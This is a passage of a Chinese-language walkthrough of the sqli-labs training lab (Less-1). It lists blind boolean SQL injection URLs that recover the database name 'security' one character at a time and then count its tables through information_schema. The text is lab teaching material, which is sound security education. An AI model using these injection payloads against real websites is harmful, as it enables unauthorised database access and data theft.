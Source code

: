 第二个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个码为 101 是 e

第三个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),3,1)) = 99 --+
```

> 第二个码为 99 是 c

第四个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),4,1)) = 117 --+
```

> 第四个码为 117 是 u

第五个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),5,1)) = 114 --+
```

> 第五个码为 114 是 r

第六个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),6,1)) = 105 --+
```

> 第六个码为 105 是 i

第七个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),7,1)) = 116 --+
```

> 第七个码 为116 是 t

第八个码

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and ascii(substr(database(),8,1)) = 121 --+
```

> 第八个码为 121 是 y

数据库名为 `security`

**爆表**

**确定当前库中表的个数**

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```



### 2.2 Less-2

---

参考链接

- [SQLI labs](https://github.com/Audi-1/sqli-labs)

